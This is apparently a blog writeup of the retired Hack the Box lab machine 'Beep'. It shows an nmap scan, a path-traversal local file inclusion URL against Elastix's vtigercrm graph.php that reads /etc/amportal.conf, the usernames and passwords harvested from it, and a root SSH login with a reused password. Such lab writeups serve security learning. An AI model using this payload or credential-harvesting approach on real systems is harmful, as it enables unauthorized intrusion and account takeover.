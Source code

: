 ```yaml
---
layout: post
title: "Beep"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Beep from Hack the Box.

<hr>
### Nmap scan
```
nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.7

Nmap scan report for 10.10.10.7
Host is up (0.014s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS USER AUTH-RESP-CODE EXPIRE(NEVER) TOP RESP-CODES PIPELINING APOP UIDL IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE RIGHTS=kxte UNSELECT SORT QUOTA STARTTLS LISTEXT X-NETSCAPE OK IMAP4rev1 IMAP4 NAMESPACE NO SORT=MODSEQ LIST-SUBSCRIBED UIDPLUS URLAUTHA0001 CONDSTORE IDLE THREAD=REFERENCES RENAME ACL ANNOTATEMORE Completed ID BINARY MULTIAPPEND THREAD=ORDEREDSUBJECT CHILDREN ATOMIC MAILBOX-REFERRALS
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-18T05:31:35+00:00; -10s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 18 15:34:20 2020 -- 1 IP address (1 host up) scanned in 364.86 seconds
```

<hr>

### Web Enumeration

Browsing to port 80 redirects to port 443

Elastix is running<br>

![](\images\htb\beep\1.png)<br><br>

Elastix is vulnerable to LFI (view source to make it readable)<br>
`https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

![](\images\htb\beep\2.png)<br><br>

Found potential usernames and passwords<br>
Users:<br>
```    
localhost
mysql
asterisk
asteriskuser
amp109
asterisk
admin
amp111
```
Passwords:<br>
```
jEhdIekWmdjE
mysql
asterisk
amp109
amp111
```
<hr>

### Root

Always try the simplest things first it could be a quick win<br>
    ```
    ssh root@10.10.10.7
    password: jEhdIekWmdjE
    ```
    <br>
![](\images\htb\beep\3.png)<br><br>
